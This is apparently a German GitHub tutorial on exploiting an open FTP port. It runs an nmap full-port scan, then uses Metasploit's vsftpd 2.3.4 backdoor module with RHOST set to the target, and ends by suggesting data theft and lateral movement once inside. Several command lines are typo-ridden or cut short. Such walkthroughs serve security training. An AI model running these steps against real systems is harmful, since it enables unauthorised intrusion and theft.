 Exploit Ports:
Um einen Port zu exploiten muss man zuerst wissen welchen Port man angreift. Dazu wird ein Portscan benötigt u zu sehen welched Portsoffen sind.

sudo nmap -p- -sV -O {IP-Adresse des Ziels}
  
 <h2>Port 21:</h2>

service postgresql start <br> service postgresql status 
  
Danach wird ein passwort verlangt

<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134168995-94cda790-8dd0-4b10-aa4d-6c21b3ead126.png" alt="PStatus Serie" width="600" height="250">
  
  
Danach öffnet man die "msf console": msfconsole
  
In dieser Konsole sucht man nach einem Exploit für diese Version:
  
  search vsftpd 2.3.4
  So sieht es aus wenn ein Exploit existiert
![image](https://user-images.githubusercontent.com/57325335/134171809-b1af4e1a-e66e-42e8-a819-9b2ee5c7ad60.png)

loit/unix/ftp/vsftpd_234_backdoor
use exploit loit/unix/ftp/vsftpd_234_backdoor
  
show options
  ![image](https://user-images.githubusercontent.com/57325335/134179000-68e9e466-7846-439e-991a-19a5aa512d45.png)
Hier sieht an wie die Konfuguration aussieht. Man Merkt recht schnell das man noch die IP adresse des Host eintragen muss, damit man den Port 21 exploiten kann.
  
set RHOST {IP-Adresse des Ziels}
  
 Nohal kontrolieren mit: show options
  
 danah kann an einfah den Comand "exploit" absetzen
  ![image](https://user-images.githubusercontent.com/57325335/134179776-3da11699-69f9-4046-9d4c-dee49130c2b9.png)
  
  Da man nun imSystem ist kann man mit Befehlen wie WHOAMI oder $HOME sich auf dem Zielsystem umshehen, Daten klauen und seinen Zugrif aus Andere Geräte im Netzwerk erweitern. 

